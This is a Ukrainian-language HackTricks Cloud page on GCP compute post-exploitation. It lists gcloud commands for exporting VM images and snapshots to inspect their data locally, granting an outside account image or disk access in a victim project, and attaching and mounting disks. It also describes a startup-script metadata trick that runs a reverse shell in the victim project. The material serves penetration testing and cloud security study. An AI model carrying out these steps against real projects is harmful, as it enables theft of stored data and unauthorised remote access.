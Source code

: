 # GCP - Післяексплуатаційна обробка обчислень

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію в рекламі на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **і** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв на GitHub**.

</details>

## Обчислення

Для отримання додаткової інформації про Обчислення та VPC (Мережування) перегляньте:

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Експорт та Інспекція зображень локально

Це дозволить зловмиснику **отримати доступ до даних, що містяться вже в існуючих зображеннях** або **створити нові зображення запущених ВМ** та отримати доступ до їх даних без доступу до запущеної ВМ.

Можливо експортувати зображення ВМ до відра та потім завантажити його та підключити локально за допомогою команди:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Перед виконанням цієї дії зловмиснику може знадобитися привілеї над сховищем та безумовно **привілеї над cloudbuild**, оскільки саме **цей сервіс** буде запитаний для виконання експорту. Крім того, для успішної роботи потрібно, щоб у кодбілд SA та у обчислювальному SA були привілеї. SA cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` потребує:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

А SA `<project-id>-compute@developer.gserviceaccount.com` потребує:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Експорт та перегляд снапшотів та дисків локально

Прямий експорт снапшотів та дисків неможливий, але можливо **перетворити снапшот у диск, диск у зображення** і, виконавши **попередній розділ**, експортувати це зображення для подальшого перегляду локально

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
### Огляд зображення при створенні віртуальної машини

З метою доступу до **даних, збережених у зображенні** або всередині **запущеної віртуальної машини**, з якої **зловмисник створив зображення**, можна надати зовнішньому обліковому запису доступ до зображення:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
і потім створіть нову віртуальну машину з неї:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Якщо ви не можете надати доступ до свого зовнішнього облікового запису через зображення, ви можете запустити віртуальну машину, використовуючи це зображення в проекті жертви та **зробити метадані виконати зворотний shell** для доступу до зображення, додавши параметр:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Огляд снапшоту/диска, підключення до віртуальної машини

З метою доступу до **даних, збережених на диску або снапшоті, ви можете перетворити снапшот у диск, диск у зображення та виконати попередні кроки.**

Або ви можете **надати зовнішньому обліковому запису доступ** до диска (якщо вихідним пунктом є снапшот, надайте доступ до снапшоту або створіть з нього диск):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Прикріпіть диск** до екземпляру:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Підключіть диск всередині віртуальної машини:

1. **SSH в машину**:

```sh
gcloud compute ssh [ІМ'Я_ЕКЗЕМПЛЯРА] --zone [ЗОНА]
```
2. **Визначте диск**: Після входу в машину, визначте новий диск, перелічуючи пристрої дисків. Зазвичай ви можете знайти його як `/dev/sdb`, `/dev/sdc`, тощо.
3. **Форматуйте та підключіть диск** (якщо це новий або необроблений диск):
* Створіть точку монтування:

```sh
sudo mkdir -p /mnt/disks/[ТОЧКА_МОНТУВАННЯ]
```
* Підключіть диск:

```sh
sudo mount -o discard,defaults /dev/[ПРИСТРІЙ_ДИСКУ] /mnt/disks/[ТОЧКА_МОНТУВАННЯ]
```

Якщо ви **не можете надати доступ до зовнішнього проекту** до знімка або диска, вам може знадобитися виконати ці дії всередині екземпляра в тому ж проекті, що й знімок/диск.
